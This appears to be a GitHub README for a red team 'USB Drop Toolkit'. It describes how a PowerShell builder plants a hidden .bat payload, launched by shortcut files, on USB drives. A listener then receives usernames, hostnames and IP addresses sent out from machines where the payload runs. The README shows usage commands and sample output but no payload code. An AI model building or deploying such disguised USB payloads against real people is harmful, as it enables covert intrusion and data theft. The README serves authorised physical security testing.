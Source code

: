 # USB Drop Toolkit
___
USB Drop Toolkit is a red team utility designed for physical security assessments where USB drops are part of the engagement. This toolkit includes:
- A PowerShell script to format USB drives with hidden .bat payload executed by shortcut files.
- A listener to capture exfiltrated host and network details

Base version of this isn't built for C2, but totally could be... just not worth the maintenance here...

![image](https://github.com/user-attachments/assets/74bbe1ac-e8be-45e9-96e5-a30811b770ff)
___
## Usage

1. Use usb_drop_builder.ps1 to generate USB with hidden .bat paylaod.
```ps1
PS C:\Users\matt\Downloads> .\usb_drop_builder.ps1 54.218.99.118
Select a USB drive to format and prepare:
[0] E: WORK_DOCS (28.89 GB free)
Enter number of drive to use: 0

[+] USB drop successfully created at E:\
DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining     Size
----------- ------------ -------------- --------- ------------ ----------------- -------------     ----
E           WORK_DOCS    FAT32          Removable Healthy      OK                     28.89 GB 28.89 GB
```
2. Start publicly accessible listener... then profit:
```bash
./usb_listener.sh
[*] Listening on port 8080
[*] Logging to ./usb_drop_logs.txt

=== Hit @ 2025-06-05 03:42:58 ===
User: hackerman\matt
Hostname: Hackerman
Internal IPs:
IPv4 Address. . . . . . . . . . . : <redacted-ip>
IPv4 Address. . . . . . . . . . . : <redacted-ip>
External IP Address: <redacted-ip>
```
